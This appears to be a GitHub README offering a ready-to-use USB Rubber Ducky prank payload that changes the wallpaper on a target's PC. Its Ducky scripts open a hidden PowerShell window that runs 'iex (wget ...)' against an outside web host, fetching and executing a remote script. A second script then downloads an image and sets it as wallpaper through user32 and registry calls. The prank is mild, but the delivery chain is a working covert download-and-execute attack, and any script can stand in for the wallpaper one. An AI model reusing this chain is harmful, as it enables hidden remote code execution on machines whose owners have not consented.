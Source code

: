 Pre-written and execution-ready code:

If you do not have access to a web server and want to get this running, here is pre-uploaded code. Code is at [this gist](https://gist.github.com/judge2020/034d6201d6b24f079e0d692bea3e92b0) containing the PS code, and the image is hosted on GitHub directly.

By default, it goes to an My Little Pony image, however you can set the 'image' GET parameter to change it at will. Eg change `https://judge.sh/wallpaper.php` to `https://judge.sh/wallpaper.php?image=https://imgur.com/test.png`.
```
SLEEP 1000
GUI r
DELAY 250
STRING powershell -windowstyle hidden iex (wget https://judge.sh/wallpaper.php)
ENTER
```


Below is original text
---


GET THE CODE SNIPS HERE:

https://www.lostserver.com/static/rubberduckcode.txt

It will set the background image on a targets pc to whatever jpg you want - i recommend mylittleponys :) 

Regards Keld Norman@DK

Write this code to your Rubber Ducky payload file using the encoder, the wget is an alias that exist in powershell already: 
---------------------------------------------------------------------
```
SLEEP 600
GUI r
DELAY 150
STRING powershell -windowstyle hidden iex (wget http://your-website.com/powershellscript.ps)
ENTER
```
The Powershell script on your webserver (http://your-website.com/powershellscript.ps):
---------------------------------------------------------------------
```
(new-object System.Net.WebClient).DownloadFile('http://your-website.com/mylittlepony.jpg',"$Env:Temp\\b.jpg");
Add-Type @"
using System;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace Wallpaper
{
 public enum Style : int
{
    Tile, Center, Stretch, NoChange
 }
 public class Setter {
  public const int SetDesktopWallpaper = 20;
  public const int UpdateIniFile = 0x01;
  public const int SendWinIniChange = 0x02;
  [DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo (int uAction, int uParam, string lpvParam, int fuWinIni);
  public static void SetWallpaper ( string path, Wallpaper.Style style ) {
     SystemParametersInfo( SetDesktopWallpaper, 0, path, UpdateIniFile | SendWinIniChange );
     RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\\\Desktop", true);
     switch( style )
     {
        case Style.Stretch :
           key.SetValue(@"WallpaperStyle", "2") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Center :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Tile :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "1") ;
           break;
        case Style.NoChange :
           break;
     
     key.Close();
      }
    }
}
"@
[Wallpaper.Setter]::SetWallpaper("$Env:Temp\b.jpg" , 2 )
```
